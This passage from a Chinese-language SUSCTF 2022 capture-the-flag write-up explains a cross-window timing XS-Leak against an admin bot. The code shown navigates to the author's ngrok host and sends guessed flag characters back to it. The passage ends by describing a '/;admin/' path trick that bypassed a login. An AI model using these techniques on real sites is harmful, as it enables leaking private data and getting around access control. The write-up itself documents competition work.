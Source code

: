 
這邊其實有幾個細節，第一個細節是最後有一段：

``` js
setTimeout(() => {
  run()
}, 1000)
```

為什麼還要等一秒之後才開始跑呢？因為 bot 有一段程式碼是：

``` js
await page.goto(url.href, {waitUntil: 'networkidle0', timeout: 2000})
await delay(5000) /// waiting 5 second.
```

會先等到 `networkidle0` 再開始等五秒，我自己試過之後發現如果我沒有先停一秒而是直接開始跑的話，`networkidle0` 似乎就不會觸發，所以就變成跑到 `timeout: 2000`，只有 2 秒的執行時間，跑什麼都會失敗，後來才加這一段。

第二個細節是這一段的秒數：

``` js
setTimeout(() => {
  win.location = 'http://e050-220-133-126-220.ngrok.io/non.html'
  setTimeout(() => {
    if (win.history.length === 3) {
      send('success:' + keyword)
    } else {
      //send('fail:' + keyword)
    }
    win.close();
  }, 1000) // 這裡
}, 1500) // 跟這裡
```

這裡算是人工嘗試幾次之後覺得 ok 的值，因為如果有搜尋到筆記的話是 1 秒後會 redirect，如果早於這個值就導回自己頁面的話會失敗，所以選了 1.5 秒，而導回來自己頁面也需要時間，所以又停了 1 秒。想要更精確的話其實可以用 [Cross-window Timing Attacks](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#cross-window-timing-attacks)，就可以精確很多。

最後一個細節是這一段：`let chars = '_abcdefghijklmnopqrstuv'.split('')`，因為我的腳本跑太慢，如果要 leak 所有字元（38 個）的話會跑不完，所以我必須手動切一半變兩次，提交兩次 URL 才能 leak 出一個字元。

感覺應該會有更快的做法，例如說 5 秒內就把所有字元 leak 出來，有人知道做法的話再麻煩留言指點一下，但總之我當初在做這題時沒想這麼多，就手動一次次提交了，花最久時間在 Google reCAPTCHA，幸好 admin bot 有三個分流，不然驗證到後面圖片直接加上雜訊，人眼也超難看懂...

幸好這題的 flag 不長，好像花了將近 20 分鐘在 submit 網址還有通過驗證，慢慢把字元弄出來。

寫到這邊我突然想到，應該把所有字元不加上 prefix 先跑一遍的，就可以知道 flag 裡有哪些字元，然後字元集可能可以縮小到 10 幾個，就會快三倍...當初怎麼沒想到，下次要記住。

（補充：我看了一下[官方的 writeup](https://github.com/susers/SUSCTF2022_official_wp/blob/main/checkin%20%26%20ez_note%20%26%20rubbish_maker_zh.md)，看起來應該是可以跑一次就把跑所有字元跑完，可能我當初測的時候沒測好，然後官方解答也是 submit 多次，不是 5 秒內就全部抓完）

## web/baby gadget v1.0(14 solves)

![](/img/susctf-2022-writeup/p3.png)

這題有給一個登入頁面，隊友發現用 `/;admin/` 的方式可以繞過，就可以進到後台，後台滿單純的，就是上面截圖這個頁面，有個地方可以下載檔案 `lib.zip`，裡面有用到的套件：
